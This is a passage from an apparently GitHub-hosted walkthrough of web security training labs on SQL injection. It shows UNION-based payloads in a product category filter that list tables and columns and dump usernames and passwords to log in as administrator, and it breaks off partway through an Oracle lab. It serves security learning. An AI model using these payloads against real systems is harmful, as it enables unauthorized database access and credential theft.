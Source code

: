 To solve the lab, log in as the administrator user.

### Sol :

First we list the tables by using `information_schema.tables` query

        category=Pets'+union+select+table_name,+null+from+information_schema.tables--
        
![image](https://user-images.githubusercontent.com/33444140/235371041-3593a411-d557-4d5d-96d9-3e26dbdca292.png)

![image](https://user-images.githubusercontent.com/33444140/235371071-f7e2fb65-4ccf-4e26-b648-50724b6417c0.png)

Now we select col names from the table `users_xmoqhn`

        category=Pets'+union+select+column_name,+null+from+information_schema.columns+where+table_name='users_xmoqhn'--

![image](https://user-images.githubusercontent.com/33444140/235371245-20b6e4e0-29cf-4a62-af19-2f36ce1011d1.png)
![image](https://user-images.githubusercontent.com/33444140/235371259-90e83d8b-5b64-4230-a6b4-eaffb0d20dd2.png)

Now we enumerate all user credentials by above info

        category=Pets'+union+select+username_actmim,+password_kuerfj+from+users_xmoqhn--
        
We got the administrator password and logged in to solve the lab.

![image](https://user-images.githubusercontent.com/33444140/235371441-0cb7b2e7-c9a8-4af8-9bff-c71e7a9638d4.png)

![image](https://user-images.githubusercontent.com/33444140/235371476-b2279d4d-38fe-4acd-9ba8-38bd08392722.png)

## Lab 10: SQL injection attack, listing the database contents on Oracle

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user

### Sol :

First we list the tables present

        category=Pets'+union+select+table_name,null+from+all_tables--
        
![image](https://user-images.githubusercontent.com/33444140/235371884-fe186a04-9aaa-449d-a377-7c53a4a7f3a2.png)

Then we check for users table

        category=Pets%27+union+select+column_name,null+from+all_tab_columns+where+table_name=%27USERS_RKONPB%27--
